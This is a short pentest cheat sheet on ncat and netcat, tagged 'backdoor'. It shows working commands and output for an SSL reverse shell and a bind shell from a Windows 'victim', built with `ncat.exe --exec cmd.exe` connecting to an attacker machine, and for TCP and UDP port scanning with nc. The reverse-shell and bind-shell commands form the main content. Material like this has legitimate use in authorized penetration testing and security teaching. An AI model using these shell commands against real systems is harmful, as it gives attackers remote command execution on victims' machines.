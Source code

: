 ```yaml
---
tags: [backdoor,network,scanner]
---
```

# Ncat / nc

## References

Netcat (`nc` binary) is a simple Unix utility which reads and writes data
across network connections, using TCP or UDP protocol. It can be used to open
bind and reverse shells.

Ncat (`ncat` binary) is a much-improved reimplementation of netcat, it's a
Nmap Project. Ncat added cipher support, IP restriction, option to serve
binaries over network, chaining, redirection, proxy connection.

- netcat (`nc`): http://nc110.sourceforge.net/
- `ncat`: https://nmap.org/ncat/

## Encrypted reverse shell from windows to the attacker machine:

Attacker machine:

```
$ ncat -vnl 9999 --allow 10.0.0.1 --ssl 
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 7B3E A579 1B50 C74C 35FE 7FD5 7D9D 991C 60D6 4F75
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
```

From windows victim:

```
C:\Users\Administrator\Desktop\Tools\ncat>ncat.exe --exec cmd.exe -vn 10.0.0.254 9999 --ssl
Ncat: Version 5.59BETA1 ( http://nmap.org/ncat )
Ncat: SSL connection to 10.0.0.254:9999.
Ncat: SHA-1 fingerprint: 7B3E A579 1B50 C74C 35FE 7FD5 7D9D 991C 60D6 4F75
```

## Unencrypted bind shell from windows to the attacker machine:

From windows victim:

```
C:\Users\Administrator\Desktop\Tools\ncat>ncat.exe --exec cmd.exe -vnl 9999 --allow 10.0.0.254
Ncat: Version 5.59BETA1 ( http://nmap.org/ncat )
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.0.0.254:35218.
```

Attacker machine:

```
$ nc 10.0.0.1 9999
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Administrator\Desktop\Tools\ncat>
```

## Port scanning with nc

CONNECT TCP method:

```
$ nc -nvv -w 1 -z 192.168.0.1 3388-3390
192.168.0.1 3388 (cbserver): Connection refused
192.168.0.1 3389 (ms-wbt-server): Connection refused
192.168.0.1 3390 (dsc): Connection refused
Total received bytes: 0
Total sent bytes: 0
```

UDP scan:

```
$ nc -nvv -w 1 -z -u 192.168.0.1 160-162  
Total received bytes: 0
Total sent bytes: 0
```
